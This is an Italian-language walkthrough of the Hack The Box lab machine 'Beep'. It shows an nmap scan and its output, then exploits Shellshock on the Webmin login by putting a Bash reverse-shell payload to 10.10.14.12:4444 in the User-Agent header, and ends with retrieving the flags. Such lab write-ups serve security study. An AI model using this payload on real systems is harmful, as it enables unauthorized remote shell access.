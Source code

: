 # Beep

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap per conoscere le porte aperte e i servizi che girano su di esse.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.10.75
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Le porte aperte sono le seguenti:

* **Porta 22**: OpenSSH 4.3
* **Porta 25**: Postfix smtpd
* **Porta 80**: Apache 2.2.3
* **Porta 110**: Cyrus pop3d 2.3.7
* **Porta 111**: rpcbind
* **Porta 143**: Cyrus imapd 2.3.7
* **Porta443**: Apache httpd 2.2.3 ((CentOS))
* **Porta993**: Cyrus imapd
* **Porta995**: Cyrus pop3d
* **Porta3306**: MySQL
* **Porta4445**: upnotifyp?
* **Porta10000**: MiniServ 1.570 (Webmin httpd)

```text
Nmap scan report for 10.10.10.7
Host is up (0.074s latency).
Not shown: 988 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_pop3-capabilities: UIDL TOP USER LOGIN-DELAY(0) EXPIRE(NEVER) STLS PIPELINING IMPLEMENTATION(Cyrus POP3 server v2) AUTH-RESP-CODE RESP-CODES APOP
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_imap-capabilities: X-NETSCAPE LISTEXT SORT=MODSEQ OK NO RIGHTS=kxte IMAP4 ATOMIC URLAUTHA0001 THREAD=ORDEREDSUBJECT RENAME UIDPLUS THREAD=REFERENCES CATENATE BINARY IDLE STARTTLS CONDSTORE MAILBOX-REFERRALS ACL NAMESPACE ANNOTATEMORE LIST-SUBSCRIBED ID Completed UNSELECT MULTIAPPEND CHILDREN SORT LITERAL+ IMAP4rev1 QUOTA
|_imap-ntlm-info: ERROR: Script execution failed (use -d to debug)
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_http-server-header: Apache/2.2.3 (CentOS)
|_ssl-date: 2023-09-19T12:58:39+00:00; +1s from scanner time.
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Elastix - Login page
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_ssl-known-key: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
3306/tcp  open  mysql      MySQL (unauthorized)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=9/19%OT=22%CT=1%CU=32140%PV=Y%DS=2%DC=I%G=Y%TM=65099B6
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=B7%GCD=1%ISR=C7%TI=Z%CI=Z%TS=A)OPS(O1=M54
OS:DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6
OS:=M54DST11)WIN(W1=16A0%W2=16A0%W3=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R=Y%DF
OS:=Y%T=40%W=16D0%O=M54DNNSNW7%CC=N%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%
OS:Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A0%S=O%A=S+%F=AS%O=M54DST11NW7%RD=0%Q=)T4
OS:(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%
OS:F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T6(R=N)T7(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%R
OS:IPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com
```

## Enumeration

In questa fase cerco di capire se qualcuno di questi servizi è configurato in modo errato o se presenta vulnerabilità note.

### 1) Porta 10000 MiniServ 1.570

Come prima cosa visito la pagina https://10.10.10.7:100000:

<p align="center">
  <img src="/Immagini/Linux-Box/Beep/beep-1.png" />
</p>

Facendo una rapida ricerca capisco che potrebbe essere presente la vulnerabilità shellshock.

Quindi intercetto la richiesta di login tramite _burp_ trasferendola al Repeater.
Successivamente, modifico il campo User Agent nel seguente modo:

```text
() { :;}; bash -i >& /dev/tcp/10.10.14.12/4444 0>&1
```

Avvio un listener in ascolto sulla porta 4444 e invio la richiesta da burp.

<p align="center">
  <img src="/Immagini/Linux-Box/Beep/beep-2.png" />
</p>

**Da qui recupero sia user.txt che root.txt.**

## Considerazioni finali

Di sicuro ci saranno altri modi per bucare questa macchina, ma non mi va di scoprirli!

<p align="center">
  <img src="/Immagini/Linux-Box/Beep/beep-3.gif" />
</p>
